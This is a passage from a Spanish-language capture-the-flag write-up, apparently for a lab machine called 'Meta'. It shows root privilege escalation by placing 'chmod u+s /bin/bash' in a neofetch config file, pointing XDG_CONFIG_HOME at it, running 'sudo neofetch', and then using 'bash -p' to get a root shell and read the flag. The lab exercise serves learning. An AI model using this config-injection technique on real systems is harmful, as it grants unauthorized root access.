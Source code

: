 
Vamos a cambiarla para que en vez de que **root** utilice su archivo de configuración utilice el de **thomas**

Ahora si podemos poner la **bash** `SUID` con esto 

```bash
thomas@meta:~/.config/neofetch$ cat config.conf | head -n 3
# See this wiki page for more info:
# https://github.com/dylanaraps/neofetch/wiki/Customizing-Info
chmod u+s /bin/bash
thomas@meta:~/.config/neofetch$ 
thomas@meta:~/.config/neofetch$ export XDG_CONFIG_HOME=/home/thomas/.config/
thomas@meta:~/.config/neofetch$ echo $XDG_CONFIG_HOME
/home/thomas/.config/
thomas@meta:~/.config/neofetch$ 
```

Ahora ejecutamos el **neofetch**

```bash
thomas@meta:~/.config/neofetch$ sudo neofetch
       _,met$$$$$gg.          root@meta 
    ,g$$$$$$$$$$$$$$$P.       --------- 
  ,g$$P"     """Y$$.".        OS: Debian GNU/Linux 10 (buster) x86_64 
 ,$$P'              `$$$.     Host: VMware Virtual Platform None 
',$$P       ,ggs.     `$$b:   Kernel: 4.19.0-17-amd64 
`d$$'     ,$P"'   .    $$$    Uptime: 2 hours, 24 mins 
 $$P      d$'     ,    $$P    Packages: 495 (dpkg) 
 $$:      $$.   -    ,d$$'    Shell: bash 5.0.3 
 $$;      Y$b._   _,d$P'      CPU: Intel Xeon Gold 5218 (2) @ 2.294GHz 
 Y$$.    `.`"Y$$$$P"'         GPU: VMware SVGA II Adapter 
 `$$b      "-.__              Memory: 144MiB / 1994MiB 
  `Y$$
   `Y$$.                                              
     `$$b.
       `Y$$b.
          `"Y$b._
              `"""

thomas@meta:~/.config/neofetch$ 
```

Y la **Bash** es **SUID**

```bash
thomas@meta:~/.config/neofetch$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1168776 Apr 18  2019 /bin/bash
thomas@meta:~/.config/neofetch$ 
```

## Shell as root 

```bash
thomas@meta:~/.config/neofetch$ bash -p
bash-5.0# whoami
root
bash-5.0# cd /root
bash-5.0# cat root.txt
97e7c468da6f2a4ba701124f4b69c516
bash-5.0# 
```
